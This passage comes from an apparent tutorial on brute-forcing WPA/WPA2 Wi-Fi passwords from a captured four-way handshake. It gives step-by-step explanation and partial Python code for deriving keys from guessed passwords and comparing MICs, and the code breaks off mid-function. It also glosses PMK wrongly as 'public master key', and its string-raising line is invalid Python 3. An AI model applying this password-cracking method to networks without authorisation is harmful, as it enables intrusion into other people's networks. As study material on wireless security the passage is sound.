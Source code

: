 ```Python
        else: # reset all variables
            association_init = False
            handshake_counter = 0
            ap_mac = None
            sta_mac = None
            ap_nonce = None
            sta_nonce = None
```

## Step 4 - Brute force the password
The last step is the implementation of the `crack_wpa` function. This is where
all of the information from the previous step is used to make guesses at what
the WiFi password could be. The way this is done is by using the information
obtained from the handshake messages and a guess at the password to calculate
a MIC, and compare that MIC with the one from the handshake. If the MICs are
the same, then the password guess was correct! The function does the following:

1. Use a guess at the password to calculate a PMK (public master key). This is
easy to calculate if you know the WiFi password, but in this situation all you
can really do is make a guess and calculate the PMK with that guess.

2. Combine the MACs and nonces for both of the access points with constants to
create a message.

3. Take the HMAC SHA1 of the message, using the guessed PMK as a seed. The
first 16 bytes of this hash is the KCK (key confirmation key).

4. Take the HMAC SHA1 of the EAPol frame (the one with the MIC field zeroed),
using the KCK as the seed. The first 16 bytes of this value is the calculated
MIC!

5. Compare the calculed MIC with the MIC from the handshake, and if they match,
then the password guess in step 1 was correct! Otherwise, repeat the same
steps with a different guess.

I found [this PDF][2], and [this stack exchange question][3] helpful when trying
to figure out what the exact steps were.  Here is what I came up with to do
this calculation:

```Python
# check all passwords that are 8 hex character strings
PASSWORD_LIST = itertools.product('0123456789ABCDEF', repeat=8)

def crack_wpa(ap_mac, sta_mac, ap_nonce, sta_nonce, eapol_frame_zeroed_mic, mic):

    # sorting function for byte strings
    def sort(in_1, in_2):
        if len(in_1) != len(in_2):
            raise 'lengths do not match!'
        in_1_byte_list = list(bytes(in_1))
        in_2_byte_list = list(bytes(in_2))

        for i in range(0, len(in_1_byte_list)):
            if in_1_byte_list[i] < in_2_byte_list[i]:
                return (in_2, in_1) # input 2 is bigger
            elif in_1_byte_list[i] > in_2_byte_list[i]:
                return (in_1, in_2) # input 1 is bigger
        return (in_1, in_2) # equal (shouldn't happen)

    max_mac, min_mac = sort(ap_mac, sta_mac)
    max_nonce, min_nonce = sort(ap_nonce, sta_nonce)

    message = b''.join([
        b'Pairwise key expansion\x00',
        min_mac,
        max_mac,
```

[1]: https://curiouswaves.blog/2017/10/29/breaking-down-802-11-frame/
[2]: http://www.og150.com/assets/Wireless%20Pre-Shared%20Key%20Cracking%20WPA,%20WPA2.pdf
[3]: https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work